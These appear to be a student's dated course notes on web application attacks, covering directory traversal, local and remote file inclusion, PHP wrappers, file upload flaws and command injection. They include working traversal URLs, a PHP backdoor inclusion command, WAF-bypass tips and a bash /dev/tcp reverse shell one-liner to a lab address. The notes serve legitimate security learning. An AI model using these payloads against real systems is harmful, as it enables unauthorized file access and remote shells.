 # Common Web Application Attacks  
**May 20, 2024**

### Common Web Application Attacks:
- Directory Traversal  
- File Inclusion Vulnerabilities  
- File Upload Attack Vulnerabilities  
- Command Injection

---

# Absolute vs Relative Paths  
**May 20, 2024**

### Absolute vs Relative Paths:
- **Absolute Path**: The full file system path with all its subdirectories. It starts with `/` (forward slash).  
  - `pwd`: Show the current path.  
  - `ls /`: List files and directories in the root file system.  
  - `../`: Go back one directory in the path.  
  - `/..`: Move up to the root directory. The number of `../` entries is relevant until we reach the root.  
  - We can use as many `../` entries as needed.

---

# Identifying and Exploiting Directory Traversals  
**May 20-22, 2024**

### Identifying Directory Traversals:
- Directory traversal allows access to sensitive files on a web server and typically occurs when the application does not properly sanitize user input.
- When a web app requests a specific page, the web server fetches the file from the file system, often stored in directories like `/var/www/html/`.  
  - Example: For a page like `home.html`, the server might serve `/var/www/html/home.html`.

### Example of Exploiting Directory Traversal:
- Consider the following URL:  
  `http://mountaindesserts.com/meteor/index.php?page=admin.php`  
  Here, the application uses PHP and a `page` parameter to display different pages. PHP uses `$_GET` to handle variables via GET requests.  
  - Directory traversal exploit:  
    `http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd`  
    This retrieves the `/etc/passwd` file. Typically, the web server runs under a dedicated user such as `www-data`.

---

# Windows Directory Traversals  
**May 21-22, 2024**

### Directory Traversal on Windows:
- Directory traversal on Windows is more difficult than on Linux systems.  
- Example path for testing traversal: `C:\Windows\System32\drivers\etc\hosts`.  
- Unlike Linux, Windows uses backslashes (`\`) rather than slashes (`/`). Always try both backslash and slash when testing for directory traversal vulnerabilities in web applications on Windows.

### Lab Example - Problem 2 (Windows):
- When performing path traversal in Windows, avoid including the drive letter (`C:`) in the URL.  
  - Example (incorrect usage of disk `C`):  
    `http://192.168.184.193:3000/public/plugins/alertlist/../../../../../../../../../Users/install.txt`

---

# Encoding Special Characters  
**May 22, 2024**

### Encoding Special Characters:
- Directory traversal attacks can be blocked by WAF (Web Application Firewalls) and other security mechanisms.  
- To bypass filters, we can use URL encoding, also known as percent encoding, which encodes special characters into their percent-encoded equivalents (e.g., `%20` for a space).

---

# Local File Inclusion (LFI)  
**May 22-23, 2024**

### Local File Inclusion (LFI):
- Directory traversal vulnerabilities can provide access to sensitive information.
- **LFI** allows the inclusion of local files in the application's running code. This can be exploited to achieve Remote Code Execution (RCE).
  - **Log Poisoning Example**: By injecting malicious data into the logs, we can execute code from those logs.

### Exploiting LFI with Log Poisoning:
- The `User-Agent` string is often written to log files, which can be modified to include executable code.  
- Example: Using Burp Suite to inject a PHP code snippet into the `User-Agent` request.  
  - The injected code could execute a command like `ps` to list processes.

### Reverse Shell via LFI:
- We can obtain a reverse shell by adding an SSH key to the `authorized_keys` file or by using a bash TCP reverse shell one-liner:  
  ```bash
  bash -i >& /dev/tcp/192.168.119.3/4444 0>&1


# PHP Wrappers
**Date**: May 23, 2024

PHP wrappers extend the language's capabilities, allowing access to local or remote filesystems. They can bypass filters or achieve code execution through file inclusion vulnerabilities in PHP.

- **php://filter**: Can display the contents of a file (e.g., base64 encoded).
- **data://**: Can embed plaintext or base64-encoded data, potentially leading to code execution.

**Example**:
```bash
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,encoded_ls_command"
```

Remote File Inclusion (RFI)
Date: May 24, 2024

RFI is less common than LFI since the target system must be configured in a specific way. In PHP, for example, the allow_url_include option must be enabled for RFI to work. With RFI, a file can be included and executed from a remote source over HTTP or SMB.

Example of RFI Exploitation: Using Kali's simple-backdoor.php, we can serve it via Python:

```bash
python3 -m http.server 80
```
Exploit RFI:

```bash
curl "http://webapp.com/meter/index.php?page=http://localhost/simple-backdoor.php&cmd=ls"
```
### File Upload Vulnerabilities
Date: May 24-25, 2024

Many web applications allow users to upload files. There are two main categories of vulnerabilities:

Uploading executable files, such as PHP scripts.
Combining file upload mechanisms with other vulnerabilities (e.g., directory traversal).
Combining File Upload and Other Vulnerabilities:

Example: If the web app is vulnerable to directory traversal, we can use a relative path in the file upload request to overwrite sensitive files like authorized_keys.
We can also use this to execute malicious macros in document files, such as .docx.
Example: Using Non-Executable Files:

If the app allows non-PHP file uploads, we can modify the filename via Burp Suite to upload the file to a specific path, potentially leading to SSH access.
OS Command Injection
Date: May 25, 2024

Web applications often need to interact with the underlying operating system, especially when handling file uploads. Vulnerabilities arise when user input is not properly sanitized, allowing malicious commands to be injected and executed on the server.
